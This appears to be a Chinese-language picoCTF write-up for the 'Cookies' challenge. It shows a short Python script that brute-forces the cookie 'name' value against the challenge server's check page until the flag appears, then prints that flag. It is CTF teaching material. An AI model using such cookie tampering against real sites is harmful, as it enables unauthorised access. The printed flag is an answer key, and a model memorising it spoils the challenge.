 # Cookies
## 題目
### Who doesn't love cookies? Try to figure out the best one.
http://mercury.picoctf.net:21485/
## 解答
<img src=https://i.imgur.com/qUJvfph.png width=50% height=50%> </img>  
這題需要修改Cookies到正確值以獲取FLAG有兩種解法
1. 蠻力解 
- 手動慢慢改Cookies
2. 寫程式讓他自動請求
```python
import requests
from bs4 import BeautifulSoup 
for i in range(28):
    cookie = 'name={}'.format(i)
    headers = {'Cookie':cookie}
    
    r = requests.get('http://mercury.picoctf.net:21485/check', headers=headers)
    if ('picoCTF' in r.text):
        soup = BeautifulSoup(r.text,"html.parser")
        print(soup.code.text)
        break
```
```shell
picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}
```
